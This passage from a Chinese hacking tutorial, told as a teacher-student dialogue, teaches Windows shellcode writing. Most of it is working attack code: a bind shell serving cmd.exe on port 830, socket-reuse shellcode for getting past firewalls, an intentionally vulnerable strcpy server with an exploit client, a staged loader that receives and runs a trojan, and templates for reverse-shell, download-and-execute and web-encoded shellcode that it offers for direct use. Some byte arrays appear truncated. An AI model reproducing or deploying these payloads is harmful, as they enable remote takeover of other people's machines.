        IPPROTO_TCP, NULL, 0, 0);
    // 监听本机830端口
    struct sockaddr_in server;
    server.sin_family = AF_INET;
    server.sin_port = htons(830);
    server.sin_addr.s_addr = ADDR_ANY;
    ret = bind(listenFD, (sockaddr *)&server, sizeof(server));
    ret = listen(listenFD, 2);
    // 如果客户端请求830端口，接受连接
    int iAddrSize = sizeof(server);
    SOCKET clientFD = accept(listenFD, (sockaddr *)&server, &iAddrSize);
    STARTUPINFO si;
    ZeroMemory(&si, sizeof(si));
    si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
    si.wShowWindow = SW_HIDE;
    si.wShowWindow = SW_SHOWNORMAL;
    si.hStdInput = si.hStdOutput = si.hStdError = (void *)clientFD;
    char cmdLine[] = "cmd.exe";
    PROCESS_INFORMATION ProcessInformation;
    // 建立进程
    ret = CreateProcess(NULL, cmdLine, NULL, NULL, 1, 0, NULL, NULL, &si, &ProcessInformation);
    return 0;
}
```


“我们将其改写到 Shellcode 的生成模板中。因为生成模板是 C 后缀文件，调用的是 C 编译器，所以我们要把局部变量全部定义在函数最开始的地方。就是变量要定义之后才能使用，否则会报错的。另外，这里的代码比较长，上下拖来拖去看定义的值比较麻烦，介绍一个小技巧，我们可以把 VC 的主编辑窗口拖成两个部分，这样变量对应起来就方便了，如图6-33所示。”

“而我们要实现代码的功能就非常简单了，只用把调用用的函数名变成 API_[函数名]，其它一点都不用变。从下面的代码中大家可以看出它完全是由 C 代码改过来的。”

```c
API_WSAStartup(MAKEWORD(2,2), &ws);
listenFD = WSASocket(AF_INET, SOCK_STREAM,
    IPPROTO_TCP, NULL, 0, 0);
// 监听本机830端口
server.sin_family = AF_INET;
server.sin_port = htons(830);
server.sin_addr.s_addr = ADDR_ANY;
ret = API_bind(listenFD, (sockaddr *)&server, sizeof(server));
ret = API_listen(listenFD, 2);
// 如果客户端请求830端口，接受连接
clientFD = API_accept(listenFD, (sockaddr *)&server, &iAddrSize);
ZeroMemory(&si, sizeof(si));
si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
si.wShowWindow = SW_HIDE;
si.wShowWindow = SW_SHOWNORMAL;
si.hStdInput = si.hStdOutput = si.hStdError = (void *)clientFD;
```


# 第六章 Shellcode 编程基础

```c
PROCESS_INFORMATION ProcessInformation;
// 建立进程
ret = API_CreateProcess(NULL, cmdLine, NULL, NULL, 1, 0, NULL, NULL, &si, &ProcessInformation);
```

“而在最开始的 enum 结构中，添加要使用到的 WSAStartup 和 WSASocket。”

```c
ws2_32
  WSAStartup
  WSASocket
    socket
    bind
    listen
    accept
    send
    recv
    getsockopt
    closesocket
```


“在函数名字串中的 Ws2_32.dll 后方，对应写入要用到的 API——WSAStartup 和 WSASocketA。”

```c
// 填充 API 中调用的 API：
"Ws2_32.dll" "\x00"
"WSAStartup" "\x00"
"WSASocketA" "\x00"
```

“我们测试一下。只要定义了 DEBUG 标记，程序在生成 Shellcode 后还会直接运行。我们看到，830 端口被顺利打开了。”

“好，我们 telnet 上去，啊，出错了？这是何故啊？”830 端口都打开了，居然在连接时出错了，小菜们非常不解，如图 6-34。

“大家注意代码中的 ZeroMemory 了吗，究竟是什么呢？”老师提醒道。

“这个简单，我们把光标放在上面，点击右键，在弹出菜单中选择跳到定义处，就会跳到 ZeroMemory 的定义处：`#define ZeroMemory RtlZeroMemory`”

“原来 ZeroMemory 是 RtlZeroMemory 啊！”小菜们说道。

“是的，那 RtlZeroMemory 又是什么呢？”

“我们再寻找 RtlZeroMemory 的定义吧。哦，原来 RtlZeroMemory 是调用了 memset 函数啊：`#define RtlZeroMemory(Destination,Length) memset((Destination),0,(Length))`，明白了，ZeroMemory 其实执行了 memset 函数，但我们没有帮编译器找 memset 函数的地址，当然会出错了！”

“明白了就把它加上吧。memset 是库函数，在 msvcrt.dll 里面，所以还需要添加它！”

```c
"msvcrt.dll" "\x00"
"memset" "\x00"
```

“在 enum 结构中也添加上 memset，这样就可以把对应的代码改成 `API_memset(&si, 0, sizeof(si));` 了，修改后的完整代码如下。”

```c
API[WSAStartup](MAKEWORD(2,2), &ws);
listenFD = API[WSASocket](AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
// 监听本机 830 端口
server.sin_family = AF_INET;
server.sin_port = API[htons](830);
server.sin_addr.s_addr = ADDR_ANY;
ret = API[bind](listenFD, (struct sockaddr *)&server, sizeof(server));
ret = API[listen](listenFD, 2);
// 如果客户端来 830 端口，接受连接
clientFD = API[accept](listenFD, (struct sockaddr *)&server, &iAddrSize);
API[memset](&si, 0, sizeof(si));
si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
si.wShowWindow = SW_HIDE;
si.wShowWindow = SW_SHOWNORMAL;
si.hStdInput = si.hStdOutput = si.hStdError = (void *)clientFD;
// 建立进程
ret = API[CreateProcess](NULL, cmdLine, NULL, NULL, 1, 0, NULL, NULL, &si, &ProcessInformation);
API[ExitProcess](0);
```

“我们编译，运行，然后登录，这次成功了，如图 6-35！”

“好方便，这下 Shellcode 的生成是一体化的工作了。只用定义几个字符串，就可以完全按照 C 语言程序的编写方法，编写 Shellcode 了！”

“是的，而且大家有兴趣还可以把寻找 Kernel32.dll 的过程改写成通过 PEB 获得，也可以通过 Hash 来寻找 GetProc 和 LoadLibrary，甚至其他所有函数的地址，可以进一步缩小代码的长度。”

### 6.3.4 复用 socket 突破防火墙

“我们有了 C 生成 Shellcode 的模板，现在可以很方便地直接用 C 语言打造高级功能的 Shellcode 了。写什么样的高级功能呢？我们还是看看突破防火墙的 Shellcode 吧。其实反连 Shellcode 可以起到突破防火墙的一定作用，如图 6-36。”


“但这需要发送方在公网中，而且需要一个公网的 IP 地址。如果攻击方是在内网里面，那目标机就反连不上来，这种方式就行不通了，如图 6-37。”


“因此我们要换一个思路。”老师说道，“我们既然可以给远程机器发送攻击代码，那么它们之间本来就是有连接的，而远程机器间的连接通信都是通过 socket 来完成的。如果我们的 Shellcode 可以找到发送攻击代码的那条通路的 socket，那就可以直接使用以前的那个 socket，不用再新建端口了，也不用创建新的 socket 了，如图 6-38。”


“哦！很巧妙啊！”台下小菜感叹道。

“而查找 socket 的方法是，对每个整数——句柄是一个整数，首先判断它是否是 socket，如果是就接收 4 个字节的字符，和我们预设的标志比较，如果相同，就认为是我们的 Shellcode 跳过去执行。判断一个句柄是否是 socket，可以用 WaitForSingleObjectEx 函数来实现。”

```c
DWORD WaitForSingleObjectEx(
    HANDLE hHandle,
    DWORD dwMilliseconds,
    BOOL bAlertable
);
```

“如果是句柄，会返回 WAIT_OBJECT_0 0x00000000L，否则会返回 WAIT_TIMEOUT 0x00000102L。因此，我们查找 socket 的代码如下，最早由 san 提出的，稍微改了下。”

```c
i = 0;
while (1)
{
    i++;
    ret = WaitForSingleObjectEx(i, 10, 1); // 判断是否是 socket
    if (ret != 0)
        continue; // 如果不是，查找下一个句柄
    ret = ioctlsocket(i, FIONREAD, &u); // 该 socket 是否可读
    if (u != 5) // 有 5 字节可读，可能是我们发送的 5 字节标志
        continue;
    recv(i, buff, 5, 0); // 读取 5 字节
    if (*(DWORD*)buff != 0x30304) // 和标记进行比较，如果相同，跳到真正的 Shellcode 执行。
        continue;
    // Shellcode 中就可以使用我们查找到的 socket 句柄直接通信了
    break;
}
send(i, "OK", sizeof("OK"), 0); // 给找到的 socket 句柄发送 OK
```


“代码中有详细的解释，句柄只是个整数而已。因此我们对每个整数先判断是否是 socket，然后判断该 socket 是否正好有 4 个字节的内容可读，如果是就读出该 4 字节内容和我们预先设置的标志进行判断。如果相同，跳到真正的 Shellcode 去执行，而在 Shellcode 里面，就可以使用我们查找到的 socket 句柄‘i’了。因为我们已经有了用 C 代码生成 Shellcode 的模板，要把这段代码提取成 Shellcode 就非常简单了。在查找函数中，添加 WaitForSingleObjectEx、ioctlsocket 和对应的 DLL 名称。WaitForSingleObjectEx 是 Kernel32.dll 的；ioctlsocket 是 Ws2_32.dll 里的。在 enum 结构对应的地方添加我们自己对函数名的引用名称，如图 6-39。”

“然后就可以像 C 语言一样实现刚才的那段函数了，只不过把函数名改为 API_函数名而已，代码如下。”

```c
for (i = 1; i < 0x800; i++)
{
    ret = API_WaitForSingleObjectEx(i, 10, 1);
    if (ret != 0)
        continue;
    ret = API_ioctlsocket(i, FIONREAD, &ul);
    if (ul == 5)
    {
        API_recv(i, buff, 5, 0);
        if (*(DWORD *)buff == 0x3038)
        {
            break;
        }
    }
}
API_send(i, "OK", sizeof("OK"), 0);
API_ExitProcess(0);
```

“很简单吧。记得选成 release 版本并去掉优化 O2 选项哦。编译、运行该 Shellcode 生成程序，就可以得到我们突破防火墙的 Shellcode 了。”

“程序帮我们完成一切，真是惬意啊！”小菜们说道。

“好了，我们把这 Shellcode 拷贝下来，在实际环境下测试一下。首先实现一个有漏洞的服务端程序。该服务端程序的任务是接收数据，然后调用一个漏洞函数。”

```c
// 接收数据，Shellcode
int numbytes = recv(new_fd, buf, sizeof(buf), 0);
// 回应收到
send(new_fd, "w00830\n", 7, 0);
// 调用漏洞函数，参数 buf
fun(buf);
```

“程序把接收到的数据传给一个有漏洞的函数，该函数没有作检查就进行拷贝，就会越界。这是标准的栈缓冲区溢出。”

```c
// 漏洞函数
int fun(char *buf)
{
    char name[8];
    strcpy((char *)name, buf);
    return 0;
}
```

小菜们说道：“哦，这和本地的那个例子程序一样。只要 8 个 A 覆盖 name，4 个 A 覆盖 EBP，然后接上 JMP ESP 的地址和 Shellcode，就可以使得程序流程跳转到我们的 Shellcode 中了。”

“是的，而客户端的功能是与服务端建立连接，发送我们精心构造的 Shellcode，收到服务端的回应后发送标志‘0830’，便于 Shellcode 查找原本连接的 socket。Shellcode 中找到 socket 后回回应代码，就将其显示出来。”

```c
// 发送 Shellcode
send(sockfd, Shellcode, sizeof(Shellcode), 0);
// 接收回应
numbytes = recv(sockfd, buf, MAXDATASIZE, 0);
// 发送标志
send(sockfd, "0830", sizeof("0830"), 0);
// 接收 OK
numbytes = recv(sockfd, buf, MAXDATASIZE, 0);
printf("Received: %s\n", buf);
```

“注意，发送 sizeof("0830") 其实是发送 5 个字符，末尾的 \x00 也会算上去，所以服务端是判断 5 个字节。”

“好啊，我们测试一下。”小菜们把 Shellcode 构造了一下后，向服务端发送了数据。

“嗯？没有成功？为什么呢？”小菜们的客户端等了半天，一点动静都没有，没有收到 Shellcode 接管 socket 后发回来的标记。

# 第六章 Shellcode 编程基础

用户断点而中断下来，我们就可以方便地查看上下左右的 Shellcode 究竟发生什么了。好了，我们在刚才编写的 Shellcode 的一些关键地方加上 int 3 指令，比如第一个 int 3 是在刚寻找完地址的时候，第二个 int 3 在寻找到一个 socket 句柄的时候，如下。

```c
__asm
    int 3

for(i = 1; i < 0x800; i++)
{
    ret = API_WaitForSingleObjectEx(i, 10, 1);
    if(ret != 0)
        continue;

    __asm
        int 3

    ret = API_ioctlsocket(i, FIONREAD, &ul);
    if(ul == 0)
        continue;
    API_recv(i, buff, 5, 0);
    if(*(DWORD *)buff == '0830')
    {
        __asm
            int 3
        break;
    }
}
API_send(i, "OK", sizeof("OK"), 0);
API_ExitProcess(0);
```


“我们重新生成 Shellcode，再次发送给服务端，调试时在第一个 int 3 处中断下来了，如图 6-40。”

“这说明漏洞的定位和 JMP ESP 地址都是正确的，我们可以顺着 Shellcode 执行下去，看看究竟发生了什么问题。”

“嗯，每次找到一个类 socket 的句柄就会自动中断下来，很方便啊。”小菜们按 F5 往下执行，发现了 int 3 有这个好处。找到了 socket 没问题，检查 5 个字节也没问题。好，收到标记值了。”小菜们一步一步地调试着。

“咦？接收到的标志是‘0380’？”小菜们愣了一下，接收到的标记存在 ebp-80C 中，赫然写着 30333830，就是‘0380’，如图 6-41。

“怪不得没有找到 socket，判断的标记是‘0830’，正好是反的。”小菜们利用调试利器找到了原因了：“那我们把客户端发送的标志改为‘0380’，拧过来吧，呵呵。”


```c
send(sockfd, "0380", sizeof("0380"), 0);
```

“这次 Shellcode 都不用动，再次运行服务端和客户端，这下成功了，客户端收到了 Shellcode 查找 socket 成功后发出的消息了，如图 6-42。”

### 6.3.5 分段 Shell 绕过长度限制

老师说道：“我们有了不会被阻断的 socket，就可以做很多事情了。比如接收更长的 Shellcode，再跳过去执行；甚至接收一个木马文件的内容，将其恢复成木马并执行。分段传送是很有用处的。有时候功能强大的 Shellcode 实在太长了，比如刚才那个直接生成的绑定 Shellcode，有 1232 字节啊，可真够大的。而且倘若程序接收时就作了长度限制，那么搜索法也不起作用了——内存里面根本就没有我们完整的 Shellcode 啊，怎么搜都白搭。因此，我们突破长度限制的第三种方法闪亮登场：用一段很短的 Shellcode，来接收更长的 Shellcode，然后跳到接收的 Shellcode 中执行。这样，更长的 Shellcode 就没有长度限制，可以完成更多的功能了。我们直接把突破防火墙的代码改一下，在找到 socket 后，再接收 1024 的 Shellcode，然后跳过去执行即可。就是在找到 socket 后加一句代码接收 Shellcode，并跳过去执行，代码如下。”

```c
if (*((DWORD *)buff) == 0x830)
{
    API(recv)(i, buff, 1024, 0);    // 接收更长的 Shellcode
    __asm{
        lea eax, buff
        jmp eax                     // 跳到接收到的 Shellcode 中执行
    }
}
```

“大家可以自己提取成 Shellcode 测试一下：在客户端方继续发送绑定端口的 Shellcode，非常管用！当然，我们也可以直接传一个木马文件的内容，将其恢复成文件并执行，代码如下。”

```c
if (*((DWORD *)buff) == 0x830)
{
    API(recv)(i, buff, 2048, 0);                // 接收木马文件内容
    hFile = API(CreateFile)(strFileName, GENERIC_WRITE, NULL, NULL, CREATE_ALWAYS, NULL, NULL);
                                                // 创建一个新的文件
    API(WriteFile)(hFile, buff, ret, &i, NULL); // 将接收到的木马文件内容写到文件中
    API(CloseHandle)(hFile);                    // 关闭文件句柄
    API(WinExec)(strFileName, SW_SHOW);         // 执行该木马文件
}
```

“在模板中加上所需要使用的函数 CreateFile、WriteFile、CloseHandle 和 WinExec 即可。要使得木马文件尽量短小，我们可以采取一些措施，尽量减少 exe 文件的大小：”

- 1. 修改对齐方式，将默认的 4096 byte 修改为 16 byte；
- 2. 修改程序入口点函数，舍弃 main 函数，直接进入到功能函数中；
- 3. 将程序的数据段和代码段放在一起；
- 4. 优化选项设为 O2。

这样设置后，甚至可以打造出 1.6k 大小的木马文件哦。当然，功能越多，代码量就越大，需要一个适当的平衡。我们讲了这么多方法，都可以突破防火墙和长度限制。甚至我们还可以直接在 Shellcode 中实现 Hook，悄悄地做自己的事情。”

## 6.4 Shellcode 的一些模板

“好了，随着各种技术的讲解，这门课也接近尾声了。”老师说道。

“唉，就要结束了啊？”小菜们多少有点惆怅。

“天下没有不散的宴席。课虽然结束了，但我们明白了编程的原理，在某些时候可以亲自定制程序、Shellcode，做到手中无剑，心中有剑。最后给大家一些 Shellcode 的模板，大家可以直接使用。而在某些特殊情况下，可以用掌握的知识自己构造，综合运用。”

### 6.4.1 绑定 Shell

“Axis 的 Shellcode，只有 322 bytes。绑定的端口是倒数第四个字节起的 2 个字节。这里默认是 21 端口，\x15\x00”

```c
/* 322 bytes */
"\xe9\x10\x01\x00\x00\x5f\x64\xa1\x30\x00\x00\x00\x8b\x40\x0c\x8b"
"\x70\x1c\xad\x8b\x68\x08\x8b\x7f\x20\x03\x59\xeb\xf0\xa0\x01\x00"
"\xe2\xf9\x68\x33\x32\x00\x00\x68\x77\x32\x5f\x54\xff\x16\x8b"
"\xe8\x6a\x06\x59\xe8\x97\x00\x00\x00\xe2\xf9\x33\xdb\x43\xff\x56"
"\x20\x8b\xfb\x64\x75\xff\x83\xc7\x04\x81\xec\x90\x01\x00\x54"
"\x68\x01\x01\x00\x00\xff\x56\x0c\x50\x50\x50\x50\x6a\x01\x6a\x02"
"\xff\x56\x10\x8b\xd8\x93\x6a\x10\x50\x50\x66\x68\x66\x24\x8b\xd6\x01"
```

## 6.4.2　反向 Shell

> “359 字节，测试代码中也有反向 IP 和端口的指定：”

```c
#include <winsock2.h>
#include <windows.h>
#pragma comment(lib, "ws2_32")
//change it to any ip port you want
#define g_ip        x.x.x.x
#define g_port      x
//don't change the offset
#define ip_offset   236
#define port_offset 231
//shellcode default connect back to 127.0.0.1:1981
unsigned char sc_connect_back_for_2k_all_ver[359] = {
    ...
};

void main()
{
    WSADATA wsa;
    unsigned short port;
    unsigned long ip;
    WSAStartup(MAKEWORD(2,2), &wsa);
    port = htons(g_port);
    ip = inet_addr(g_ip);
    memcpy(&sc_connect_back_for_2k_all_ver[port_offset], &port, 2);
    memcpy(&sc_connect_back_for_2k_all_ver[ip_offset], &ip, 4);
    __asm {
        lea eax, sc_connect_back_for_2k_all_ver
        jmp eax
    }
}
```

## 6.4.3　下载 Shell

> “这个当然用我们自己写的了，要记得编码并加上解码头哦。”

```c
unsigned char Shellcode[] =
"\xe9\x88\x00\x00\x00\x5f\x64\xa1\x30\x00\x00\x00\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x68\x08\x8b\xf7\x6a\x02\x59\xe8\x31\x00\x00\x00\xe2\xf9\x68\x6f\x6e\x00\x00\x68\x75\x72\x6c\x66\x54\xff\x16\x8b\xe8\xe8\x1b\x00\x00\x00\x68\x2e\x61\x00\x00\x68\x63\x3a\x6c\x61\x54\x5b\x33\xc0\x50\x53\x57\x50\xff\x56\x08\x50\x53\xff\x56\x04\x51\x56\x8b\x86\x75\x3c\x8b\x74\x2e\x70\x03\xf5\x56\x8b\x76\x20\x03\xf5\x33\xc9\x49\x41\xad\x03\xc5\xdb\x0f\xbd\x10\x3a\x06\x74\x08\xc1\xc8\x0d\x03\xda\x40\xeb\xf1\x3b\x1f\x75\xe7"
```

> “最后的地方是 http://192.168.0.250/a.a，换成自己想下载的代码就可以了。”

## 6.4.4　网页中 Shellcode 的生成

“要生成网页中的 Shellcode，要打成 %uAABB 的形式，如下的代码可以把 lpBuff 里面存的 Shellcode 打印成该形式。”

```c
// print unicode Shellcode
void PrintPayload(char *lpBuff, int buffsize)
{
    int i=0;
    for(i=0; i<buffsize; i+=2)
    {
        if((i%16)==0)
        {
            if(i==0)
                fprintf(fp, "%s" "\" +\n\"");
            else
                fprintf(fp, "%s" "\n");
        }
        fprintf(fp, "%%u%0.4x", *((unsigned short*)lpBuff)[i/2]);
    }
    // 把 Shellcode 打印在 header 后面，然后用 ")" 闭合。
    fprintf(fp, "%s", "\")" "\n");
}
```

> “当然，生成的 Shellcode 是要放在 var Shellcode = unescape("%u9090"+"%u9090") 的后面。”

## 6.4.5　NCR 编码 Shellcode 的生成

“我们再提一次 NCR 编码，Buf 里面存整个 JMP 地址和编码后的 Shellcode，输出出来的就是 NCR 编码后的代码。把 NCR 编码后的代码贴在网页中，是不会被改变的哦。”

```c
// convert string to NCR
void convert2ncr(unsigned char *buf, int size)
{
    int i=0;
    unsigned int ncr_ = 0;
    for(i=0; i<size; i+=2)
    {
        ncr_ = (buf[i+1] << 8) + buf[i];
        printf("&#x%x;", ncr_);
    }
}
```

> “好了，这门课到此就结束了，希望大家学到的不仅仅是技术，而是学习技术的方法和黑客们不屈不挠的精神！”

> “嗯，”小菜们应道，抬起头来，仿佛看见了一片蔚蓝的天空……”